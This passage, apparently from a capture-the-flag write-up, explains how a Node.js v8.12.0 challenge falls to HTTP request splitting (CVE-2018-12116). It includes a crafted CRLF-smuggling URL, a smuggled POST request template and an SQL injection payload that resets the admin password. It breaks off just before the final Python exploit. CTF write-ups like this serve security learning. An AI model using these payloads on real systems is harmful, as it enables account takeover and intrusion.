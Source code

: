 After trying a variety of things we ended up finding a vulnerability for this particular nodejs version, v8.12.0, in the `http.get` function(CVE-2018-12116).
The vulnerability allows an attacker to perform a http request inside a get request when the function `http.get` is used to the same address.
In the example bellow, two get requests are sent to the address 127.0.0.1:8000, one to the endpoint `/` and another to the endpoint `/private`.

```js
http.get('http://127.0.0.1:8000/?param=x\u{0120}HTTP/1.1\u{010D}\u{010A}Host:{\u0120}127.0.0.1:8000\u{010D}\u{010A}\u{010D}\u{010A}GET\u{0120}/private)
```
Since we can control the endpoint variable in the url, we can try to exploit this vulnerability and make two different requests, one of them sent to the register endpoint using a POST request. Since we didn't find a POC with a POST request, we built [one](). The requests sent to solve this challenge have the following structure:

```
127.0.0.1:8000 HTTP/1.1
Host: 127.0.0.1

POST /register HTTP/1.1
Host:127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-length: <calculated in runtime>

username=admin&password=<insert sql injection here>

GET
```

Additionally, since the admin user already exists,

```js
    async migrate() {
        return this.db.exec(`
            DROP TABLE IF EXISTS users;

            CREATE TABLE IF NOT EXISTS users (
                id         INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT,
                username   VARCHAR(255) NOT NULL UNIQUE,
                password   VARCHAR(255) NOT NULL
            );

            INSERT INTO users (username, password) VALUES ('admin', '${ crypto.randomBytes(32).toString('hex') }');
        `);
    }
```

we need to update with a new password that we know:

```sql
test') ON CONFLICT (username) DO UPDATE SET password = 'admin123';--
```

The final exploit was built using python and is bellow:
